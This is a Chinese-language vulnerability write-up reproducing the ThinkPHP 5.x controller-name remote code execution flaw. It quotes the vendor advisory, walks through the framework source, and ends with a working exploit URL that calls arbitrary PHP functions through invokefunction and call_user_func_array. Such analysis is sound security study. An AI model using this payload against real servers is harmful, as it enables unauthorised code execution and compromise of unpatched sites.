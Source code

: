 # tp5rce复现

## 影响范围

>### 本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0.23和5.1.31之前的所有版本，推荐尽快更新到最新版本。
>
>**如果暂时无法更新到最新版本，请开启强制路由并添加相应未定义路由，或者参考commit的修改 增加相关代码。**
>
>--来自thinkphp官网



## 漏洞原理

根据官方的公告去寻找相关commit发现漏洞位置

![image.png](https://i.loli.net/2020/01/28/5EDWfFXvmqSuJk3.png)



查看所有调用controller的函数发现有个敏感的函数名exec,不过这个是tp自己实现的

```php
	public function exec()
    {
        // 监听module_init
        $this->app['hook']->listen('module_init');

        try {
            // 实例化控制器
            $instance = $this->app->controller($this->controller,
                $this->rule->getConfig('url_controller_layer'),
                $this->rule->getConfig('controller_suffix'),
                $this->rule->getConfig('empty_controller'));

            if ($instance instanceof Controller) {
                $instance->registerMiddleware();
            }
        } catch (ClassNotFoundException $e) {
            throw new HttpException(404, 'controller not exists:' . $e->getClass());
        }
    ...
    }
```

跟进controller

```php
    public function controller($name, $layer = 'controller', $appendSuffix = false, $empty = '')
    {
        list($module, $class) = $this->parseModuleAndClass($name, $layer, $appendSuffix);

        if (class_exists($class)) {
            return $this->__get($class);
        } elseif ($empty && class_exists($emptyClass = $this->parseClass($module, $layer, $empty, $appendSuffix))) {
            return $this->__get($emptyClass);
        }

        throw new ClassNotFoundException('class not exists:' . $class, $class);
    }
```

再跟进parseModuleAndClass

```php
protected function parseModuleAndClass($name, $layer, $appendSuffix)
    {
        if (false !== strpos($name, '\\')) {
            $class  = $name;//存在\
            $module = $this->request->module();
        } else {
            if (strpos($name, '/')) {
                list($module, $name) = explode('/', $name, 2);
            } else {
                $module = $this->request->module();
            }

            $class = $this->parseClass($module, $layer, $name, $appendSuffix);
        }

        return [$module, $class];
    }
```

如果存在\则直接返回数据,其中`$name`是我们可控内容,而`$name`也恰好是类名,于是我们可以通过调用命名空间\类来进行敏感操作

## 漏洞利用

查找手册,找到url访问的具体细节

`http://serverName/index.php（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值...]`

于是有通杀tp5.0.x和tp5.1.x的检测payload

` http://127.0.0.1/public/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=var_dump&vars[1][]=checktp5rce `

